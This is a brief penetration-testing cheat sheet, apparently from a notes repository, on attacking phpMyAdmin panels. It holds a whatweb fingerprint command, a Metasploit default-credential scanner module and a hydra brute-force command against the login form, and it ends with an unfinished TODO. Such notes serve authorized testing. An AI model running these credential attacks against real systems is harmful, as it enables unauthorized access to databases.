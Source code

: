 # Scanners

Search Tags(s): #webapp-pentesting #web-panel #phpmyadmin #hydra #metasploit-framework

## 01 - Fingerprint

```
$ whatweb -p phpMyAdmin [--url-suffix /phpmyadmin/] <URL>
```

## 02 - Default Credentials

Use MySQL default credentials

```
msf > use auxiliary/scanner/http/phpmyadmin_login
```

## 03 - Bruteforce

```
$ hydra -L users.lst -P passwords.lst http-form-post "/phpmyadmin/index.php:pma_username=^USER^&pma_password=^PASS^:#1045 Cannot log in to the MySQL server" -vV -f <IP>
```

TODO: Fill this info